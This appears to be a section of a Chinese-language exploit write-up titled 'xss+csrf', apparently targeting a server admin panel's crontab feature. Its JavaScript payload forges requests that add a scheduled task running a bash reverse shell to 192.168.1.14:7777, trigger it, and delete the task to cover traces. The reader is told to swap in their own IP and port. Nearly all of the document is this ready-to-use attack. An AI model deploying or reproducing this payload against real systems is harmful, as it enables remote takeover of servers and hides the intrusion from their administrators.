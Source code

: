 8.xss+csrf  
  
开一个web服务，建一个js文件内容如下（记得把shell命令改成自己的ip和端口）  
  
```
function addTask(TaskName, execTime, ip, port) {
    var execShell = 'bash -i >& /dev/tcp/192.168.1.14/7777 0>&1';
    execShell = encodeURIComponent(execShell);

    var params = 'name=' + TaskName + '&type=minute-n&where1=' + execTime + '&hour=&minute=&week=&sType=toShell&sBody=' + execShell + '&sName=&backupTo=localhost&save=&urladdress=undefined';

    var xhr = new XMLHttpRequest();
    xhr.open('POST', '/crontab?action=AddCrontab', false);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send(params);
}

function execTask(TaskName) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', '/crontab?action=GetCrontab', true);
    xhr.send();

    xhr.onload = function () {
        if (this.readyState == 4 && this.status == 200) {
            var res = JSON.parse(this.responseText);

            if (res[0].name == TaskName) {
                var TaskID = res[0].id.toString();
                var xhr = new XMLHttpRequest();
                xhr.open('POST', '/crontab?action=StartTask', false);
                xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
                var params = 'id=' + TaskID;
                xhr.send(params);

                delTask(res[0].id);
                console.log(res[0].id);
                return res[0].id;
            }
        }
    }
}

function delTask(TaskID) {
    var params = 'id=' + TaskID.toString();
    var xhr = new XMLHttpRequest();
    xhr.open('POST', '/crontab?action=DelCrontab', false);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send(params);
}

var TaskName = Math.random().toString(36).substring(7);
addTask(TaskName, '5', '1.1.1.1', '53');
execTask(TaskName);
```  
  
